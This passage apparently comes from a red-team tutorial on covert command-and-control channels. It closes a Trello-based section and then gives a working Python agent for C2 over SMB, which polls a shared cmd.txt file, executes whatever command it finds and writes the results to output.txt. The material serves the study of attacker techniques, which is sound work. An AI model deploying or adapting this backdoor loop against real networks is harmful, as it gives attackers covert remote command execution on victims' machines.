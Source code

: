 The script executes the command and adds a comment as the result of the command.
![trello](./images/trello-1.png)

## Server Message Block (SMB)
> "Server Message Block (SMB) is a communication protocol[1] used to share files, printers, serial ports, and miscellaneous communications between nodes on a network." - Wikipedia

SMB is used for file sharing mostly in a Windows environment. The scenario that can come to mind is when external access is restricted. But systems can still communiate with each other internally. If an attacker gains access to one of these systems, they could use SMB to establish a C2 channel AKA C2 over SMB channel, allowing them to execute commands on another victim machine and receive the results.

### Code
```python
import smbclient
import subprocess
smbclient.ClientConfig(username="", password="")
def Exec(cmd):
    output = subprocess.check_output(cmd, shell=False)
    return output
while True:
    try:
        output = ""
        with smbclient.open_file(r"\\127.0.0.1\share2\\cmd.txt", mode="r") as file:
            content = file.read()
            if not content:
                file.close()
                continue
            output = Exec(content).decode()
            file.close()
        with smbclient.open_file(r"\\127.0.0.1\share2\\output.txt", mode="a") as file:
            file.write(output)
            file.close()
        with smbclient.open_file(r"\\127.0.0.1\share2\\cmd.txt", mode="w") as file:
            file.write("")
            file.close() 
    except Exception as e:
        continue
```
This script authenticates using a username and password and then tries to access and read `cmd.txt` in `share2` shared folder. It executes the command if there is any and if not it constantly checks it. After receiving and executing the command, it stores the output in `output.txt` in the same `share2` shared folder.
